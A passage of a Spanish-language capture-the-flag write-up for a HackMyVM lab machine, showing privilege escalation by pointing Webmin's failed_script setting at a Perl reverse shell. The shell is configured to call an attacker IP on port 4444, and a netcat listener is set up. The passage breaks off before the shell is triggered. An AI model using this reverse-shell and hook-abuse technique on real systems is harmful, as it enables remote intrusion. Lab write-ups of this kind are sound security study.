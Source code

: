 ```
[...]
failed_script=/etc/webmin/failed.pl
[...]
```

Esto sí nos interesa, y mucho. Se trata del **`script`** que se ejecutará cada vez que alguien falle la autenticación. Nos viene de **`perlas`** (😉), ya que al no sabernos las credenciales podemos fallar y hacer que se inicie este **`script`**. También es algo curioso, nos deja modificar este fichero, por lo que podemos cambiar esta variable y hacer que apunte a nuestro propio **`script`** en **`PERL`**.

```
[...]
failed_script=/home/marie/failed.pl
[...]
```

Ahora que lo hemos modificado necesitamos reestablecer el servicio para que los cambios se efectúen, para ello utilizaremos nuestros permisos antes vistos para reiniciar la máquina entera:

```sh
marie@may:~$ sudo reboot
marie@may:~$ Connection to 192.168.1.112 closed by remote host.
Connection to 192.168.1.112 closed.
```

Ahora que los datos se han guardado y el servidor apunta al fichero **`failed.pl`** en la carpeta **`/home/marie/`{: .filepath }**, me descargué una [**`Reverse Shell`**](https://raw.githubusercontent.com/pentestmonkey/perl-reverse-shell/master/perl-reverse-shell.pl) en **`PERL`**. Modifiqué las variables **`ip`** y **`port`** para que apuntaran a mi máquina de atacante:

```perl
# Where to send the reverse shell.  Change these.
my $ip = '192.168.1.107';
my $port = 4444;
```

Una vez creado y modificado el fichero pasaremos a darle permisos de ejecución:

```sh
marie@may:~$ chmod +x failed.pl
```

Ahora viene el paso más importante, ponernos en escucha. Para ello utilicé **`NetCat`** y, en mi caso, por el puerto **`4444`**, el que especifiqué en el fichero **`PERL`** anteriormente:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/May]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Todo listo para la explotación, lo único que debemos hacer es dirigirnos al puerto **`10000`** e introducir un usuario y/o una contraseña errónea (fácil):
